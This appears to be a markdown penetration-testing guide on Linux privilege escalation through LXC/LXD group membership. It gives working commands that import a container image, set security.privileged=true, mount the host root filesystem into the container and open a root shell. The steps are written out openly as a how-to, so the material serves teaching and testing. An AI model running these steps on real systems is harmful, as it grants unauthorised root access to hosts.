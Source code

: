 # Linux Privilege Escalation
`The Guide`

- [Service-based Privilege Escalation]()
  - [Linux Containers](#linux-containers---lxc)

## Linux Containers - LXC
Confirming that the user is a part of lxc group.
```bash
container-user@nix02:~$ id
uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
Overview
: From here on, there are now several ways in which we can exploit LXC/LXD. We can either create our own container and transfer it to the target system or use an existing container. Unfortunately, administrators often use templates that have little to no security. This attitude has the consequence that we already have tools that we can use against the system ourselves. Such templates often do not have passwords, especially if they are uncomplicated test environments.
```bash
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```
`Importing the container as an image.`
```bash
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```
> Initiating the image and configuring it by specifying the security.privileged flag and the root path for the container. This flag disables all isolation features that allow us to act on the host.
```bash
lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
> Starting the congtainer and logging into it.
```bash
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~#
```
